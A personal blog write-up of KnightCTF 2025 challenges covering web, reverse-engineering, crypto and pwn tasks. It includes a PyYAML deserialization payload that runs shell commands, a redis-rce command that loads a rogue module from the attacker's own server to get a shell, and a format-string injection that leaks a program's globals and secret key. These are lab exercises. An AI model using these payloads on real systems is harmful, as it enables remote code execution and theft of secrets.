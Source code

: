 +++
title = 'KnightCTF 2025 Personal Writeup'
date = 2025-01-21T16:04:44+08:00
summary = "Full of guessing. No idea what the organizers are thinking."
math = true
draft = false
tags = ['Writeup', 'KCTF']
categories = ['CTF']
+++

## Web
### Baby Injection

Python's YAML lib `PyYaml` unserialization flaw. The root cause is that
`yaml.load` will deserialize the input string into a Python object, for example

```yaml
person:
  !python/object:__main__.Person
  name: Alice
  age: 25
```

will be loaded into `{'person': <__main__.Person object at 0x000001BA17055390>}`.

Thus, we can exploit this to execute arbitrary code by injecting

```yaml
!!python/object/apply:subprocess.check_output [["ls"]]
```

After base64 encoding, we got the flag from the filename.

### Luana

Redis RCE. Get shell by https://github.com/Ridter/redis-rce

Download `exp.so` from https://github.com/n0b0dyCN/redis-rogue-server

```bash
python3 redis-rce.py -r 172.105.121.246 -p 6379 -L <your-server-ip> -P <your-server-port> -f exp.so
```

### KnightCal

Kinda weird.

The website stores the result of calculation through a mapping from digits to character.
For example, inputing `1234567890` will get the content of `ldbhgcfeai.txt`. So it's ez to guess that
we need to read `flag.txt` which is `7195`.

## RE

### Knight's Droid

A simple APK RE, open with jadx. First glance gives `SecretKeyVerifier.verifyFlag` in `MainActivity`.

Encoded text was `GYPB{_ykjcnwp5_GJECDP_u0q_c0p_uKqN_Gj1cd7_zN01z_}` and the encryption

```java
private static String droidMagic(String input, int droidTask) {
    int droidTask2 = ((droidTask % 26) + 26) % 26;
    StringBuilder sb = new StringBuilder();
    for (char c : input.toCharArray()) {
        if (Character.isUpperCase(c)) {
            int originalPos = c - 'A';
            int newPos = (originalPos + droidTask2) % 26;
            sb.append((char) (newPos + 65));
        } else if (Character.isLowerCase(c)) {
            int originalPos2 = c - 'a';
            int newPos2 = (originalPos2 + droidTask2) % 26;
            sb.append((char) (newPos2 + 97));
        } else {
            sb.append(c);
        }
    }
    return sb.toString();
}
```

It's a ROT13 cipher, and brute forcing the key will get the flag.

## Crypto

### Reflections in the Random

Well the hint is a bit misleading. It's indeed a base64 encoded string. After xored with the key,
we got a string similar to the flag, only an extra reversing needed.

## PWN

### Knight's Secret

It's not a PWN. Hint gives that 

> Example of a safe template: 'Greetings, {person_obj.name}, the {person_obj.role}.'

So apparently there's some kind of template injection. Playing around 

```python
Enter your secret: {person_obj.__init__}
Output: <bound method Person.__init__ of <__main__.Person object at 0x71aedc66e420>>
```

and finally

```python
Enter your secret: {person_obj.__init__.__globals__}
Output: {'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x71aedc663920>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, '__file__': '/challenge/challenge.py', '__cached__': None, 'CONFIG': {'KEY': '_KNIGHTSECRET2025_'}, 'Person': <class '__main__.Person'>, 'fun': <function fun at 0x71aedc64a340>, 'main': <function main at 0x71aedc428d60>}
```

This is it. The secret is `_KNIGHTSECRET2025_`.
